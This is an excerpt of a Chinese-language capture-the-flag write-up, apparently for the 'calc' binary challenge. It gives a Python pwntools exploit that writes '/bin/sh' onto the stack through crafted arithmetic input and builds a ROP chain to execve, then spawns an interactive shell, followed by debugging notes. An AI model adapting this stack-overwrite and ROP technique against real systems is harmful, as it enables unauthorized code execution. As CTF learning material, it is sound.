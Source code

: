 ```python
        payload: *701+1845554944+6845231
        """
        binsh = [u32("/bin"), u32("/sh\0")] # 0x6e69622f, 0x0068732f
        sent_number = [binsh[0]-binsh[1], binsh[1]]
        self.payload = "*701+%d+%d\n" % (sent_number[0], sent_number[1])
        self.p.send(self.payload)
        assert p32(int(self.p.recvline(), 10)) == "/bin"
        
        self.binsh_addr = self.calc_ebp - 0x5a0 + 700 * 4
        print("write '/bin/sh': %s" % hex(self.binsh_addr) )

    def ROP(self):
        addr1 = 0x0805c34b      # pop eax; ret
        addr2 = 0x080701d1      # pop ecx; pop ebx; ret
        addr3 = 0x080701aa      # pop edx; ret
        addr4 = 0x08049a21      # int 0x80
        stack = [addr1, 0xb, addr2, 0x0, -0x100000000 + self.binsh_addr, addr3, 0x0, addr4]
        n = [ stack[i+1] + stack[i] for i in range(7)] + [ stack[7] ]
        assert n[3] < 0
        self.payload = "*361-1*%d-1*%d-1*%d-1*%d+%d+%d" % \
            (n[0], n[1], n[2], -n[3], 0x80000000+n[3], 0x80000000+n[3])
        if n[4] > 0:
            self.payload += "-1*%d" % n[4]
        else:
            self.payload += "-1*%d+%d+%d" % (-n[4], 0x80000000 + n[4], 0x80000000 + n[4] )
        self.payload += "-1*%d-1*%d-1*%d\n" % (n[5], n[6], n[7])
        self.p.send(self.payload)
        self.p.recvline()
    
    def get_shell(self):
        self.p.send("illegal")
        self.p.interactive()

    def pwn(self):
        print("----------begin-----------")
        self.p.recvline()
        self.leak_ebp()
        self.write_binsh()
        self.ROP()
        self.get_shell()
        self.p.wait_for_close()
        print("-----------end------------")


if __name__ == "__main__":
    s = Challenge(True)
    s.pwn()
```

写 `exp` 最后 debug 的时候有以下的几个坑点：

1. 我们利用乘法优先级比较高的特性，可以构造 `1*addr` 这样的表达式将上面的地址全部按顺序压入栈中。但是问题是 `adstr` 是一个负数，用这种方式压栈会出现表达式错误（`*-` 两个运算符同时出现）。
2. `/bin/sh` 这个字符串不能写在 `calc` 这个函数的局部变量区，因为每次循环时会被初始化。


